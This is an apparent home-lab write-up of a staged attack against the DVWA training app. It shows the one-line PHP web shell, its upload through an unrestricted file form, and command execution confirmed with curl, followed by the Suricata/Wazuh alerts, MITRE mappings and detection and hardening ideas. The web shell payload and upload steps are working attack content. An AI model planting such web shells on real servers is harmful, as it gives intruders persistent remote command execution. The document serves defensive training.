





# Stage 05 — Web Shell Upload

> **Status:** Complete — evidence attached
> **Case:** [Case 01](../../04-Investigation/Cases/case-01-web-compromise.md)
> **Investigation:** [Stage 05](../../04-Investigation/Stages/stage-05-webshell.md)
> **Evidence:** [attack](../Attack-Screenshots/) · [alert](../../03-Detection-Engineering/TheHive_Alert-ScreenShot/)

## Objective

Leverage an unrestricted file upload vulnerability within the web application to deploy an interactive PHP web shell onto the web server, establishing persistent backdoor access and verifying remote arbitrary command execution on the underlying operating system.

## Commands

```bash
# 1. Author lightweight PHP command execution web shell on Kali Linux
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php

# 2. Upload shell.php via the DVWA File Upload form
# HTTP POST /vulnerabilities/upload/ with multipart/form-data containing /tmp/shell.php

# 3. Verify remote arbitrary command execution via HTTP GET query
curl -s "http://192.168.56.30/hackable/uploads/shell.php?cmd=id"

# Or accessed directly in the browser:
# http://192.168.56.30/hackable/uploads/shell.php?cmd=id
```

## What happened

1. **Web Shell Payload Generation**: On the attacker machine (`192.168.232.135`), a compact single-line PHP backdoor was constructed using `echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php`. This payload takes system command strings passed via the `cmd` GET parameter and passes them directly to the underlying Linux shell via PHP's native `system()` function.
2. **Unrestricted File Upload**: Authenticated as `admin`, the attacker accessed the DVWA File Upload interface (`http://192.168.56.30/vulnerabilities/upload/#`). The form was provided `/tmp/shell.php` and submitted. The application performed no file extension validation, MIME-type verification, or magic byte checks, writing the file directly into the server's web directory and confirming:
   `../../hackable/uploads/shell.php succesfully uploaded!`
3. **Execution Verification & Identity Confirmation**: The attacker requested the newly uploaded script via HTTP GET:
   `http://192.168.56.30/hackable/uploads/shell.php?cmd=id`
   The Apache web server passed the request to the PHP interpreter, which executed the Linux `id` binary. The command output was rendered directly to the browser screen:
   `uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm)`
   This established verified remote command execution under the privileges of the web daemon account (`www-data`).

## Evidence

### Attack Screenshots


*Figure 5.1: Creation of lightweight PHP command execution web shell payload in /tmp/shell.php.*


*Figure 5.2: Application response confirming successful upload to ../../hackable/uploads/shell.php.*


*Figure 5.3: Web browser rendering output of id command executed via the uploaded web shell.*

### Alert Screenshots


*Figure 5.4: TheHive alert dashboard recording Suricata inbound web traffic alerts.*


*Figure 5.5: Suricata rule 100600 alert capturing inbound web request traffic from 192.168.232.135.*


*Figure 5.6: Suricata rule 100600 alerts detecting ET WEB_SERVER PHP System Command in HTTP POST and ET WEB_SERVER Exploit Suspected PHP Injection Attack (cmd=).*

## Alert observed

| Source | Rule / Signature | Rule ID | TheHive alert / Reference | Severity |
|---|---|---|---|---|
| Suricata / Wazuh | `Suricata: [200] [192.168.232.135] [/vulnerabilities/upload/] [ET WEB_SERVER PHP System Command in HTTP POST]` | 100600 | Alert 21 (`6.1.png`) | Medium (2) |
| Suricata / Wazuh | `Suricata: [200] [192.168.232.135] [/hackable/uploads/shell.php?cmd=id] [ET WEB_SERVER Exploit Suspected PHP Injection Attack (cmd=)]` | 100600 | Alert 22 (`6.1.png`) | Medium (2) |
| Suricata / Wazuh | `Suricata: Alert - ET ATTACK_RESPONSE Output of id command from HTTP server` | 86601 | `wzb-e9a1797ac4` (`6.png`) | Medium (2) |
| Suricata / Wazuh | `Suricata: [200] [192.168.232.135] [/login.php] [ET INFO User-Agent (python-requests) Inbound to Webserver]` | 100600 | `wzb-6a22425401` (`4.png`, `4.1.png`) | Medium (2) |
| Wazuh (Auditd / FIM) | `[FANOUT x1] [DVWA] parent PID 17550` (Command execution under Apache worker) | Local Wazuh rule | `wzb-61ed72e937` (`6.png`) | Medium (2) |

## MITRE ATT&CK

| Tactic | Technique | ID |
|---|---|---|
| Persistence | Server Software Component: Web Shell | T1505.003 |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 |
| Initial Access | Exploit Public-Facing Application | T1190 |

## Detection opportunities

- **Endpoint File Integrity Monitoring (FIM)**: Wazuh Syscheck configured on web root directories (`/var/www/html/hackable/uploads/`) to trigger real-time alerts upon the creation or modification of executable web scripts (`.php`, `.phtml`, `.phar`).
- **Endpoint Process Tree Monitoring (Auditd / Sysmon Linux)**: Detection rules alerting on web server worker processes (`apache2`, `httpd`, `php-fpm`) spawning shell interpreters (`/bin/sh`, `/bin/bash`, `/bin/dash`) or system discovery utilities (`id`, `whoami`, `uname`, `cat /etc/passwd`).
- **Network IDS Payload Inspection**: Suricata signatures alerting on HTTP POST payloads containing dangerous PHP function calls (`system(`, `exec(`, `passthru(`, `shell_exec(`), as well as HTTP GET requests invoking parameter keys like `?cmd=` or `?exec=`.
- **Attack Response Inspection**: Network IDS signatures monitoring outbound HTTP server responses for characteristic Unix command output strings (e.g., `uid=.*gid=.*groups=.*`).
- **Web Server Hardening**: Disabling PHP execution within user-writable upload directories via Apache configurations (`php_flag engine off` in `.htaccess` or directory blocks) or mounting upload partitions with the `noexec` attribute.

## Notes

- The unrestricted file upload vulnerability allowed persistent arbitrary code execution without requiring administrative OS shell credentials.
- The web shell serves as the pivot mechanism for spawning an interactive reverse shell back to the attack station in Stage 06.
